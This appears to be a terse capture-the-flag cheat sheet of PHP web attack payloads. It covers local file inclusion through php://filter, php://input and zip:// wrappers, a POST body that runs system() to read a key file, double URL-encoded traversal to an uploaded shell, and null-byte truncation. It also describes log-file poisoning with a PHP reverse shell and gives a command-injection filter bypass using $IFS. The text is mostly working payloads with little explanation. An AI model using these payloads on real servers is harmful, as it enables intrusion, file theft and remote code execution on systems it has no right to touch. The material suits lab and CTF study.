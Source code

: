 /include.php?dota=php://filter/read=convert.base64-encode/resource=key.txt

;;;;;;;;;;;;;remember to decode the base64 cipher text

###### php://input

/include.php?dota=php://input

post data:  <?php system('cat key.php');?>

;;;;;;;;;;;;;;;;to post data but not upload file



###### Hex encode

%252e%252e%252fupload%252fshell%252etxt

%2E%2E%2Fupload%2Fshell%2Etxt

"%252e" --> "."

"%252f" --> "/"

"%253C" --> "<"

;;;;;;;;;;;;;;use **hexencode** to bypass the special character filtration, to specify the local file path

sometimes to get rid of the extension like php and html,  you need %00, %23 "#" or just overlow the byte upper limit.  

###### zip://path

--->Use the zip wrapper to extract the payload using: php?page=zip://path/to/file.zip%23shell



##### Truncation LFI Bypass

##### Log File Contamination

Log file contamination is the process of injecting source code into log files on the target system.  For example, injecting PHP reverse shell code into a URL, causing syslog to create an entry in the apache access log for a 404 page not found entry. The apache log file would then be parsed.  

After introducing source code to the target systems log file(s) the next step is identifying the location of the log file.  



FuzzDB’s Burp LFI payload lists can be used in conjunction with Burp intruder to quickly identify valid log file locations on the target system.



## Command injection bypass

$;ls$IFS$9key.ph?

use $IFS to bypass the space filter, and "?", as a regex to bypass the character filter

remember not to miss everything, including the front-end page
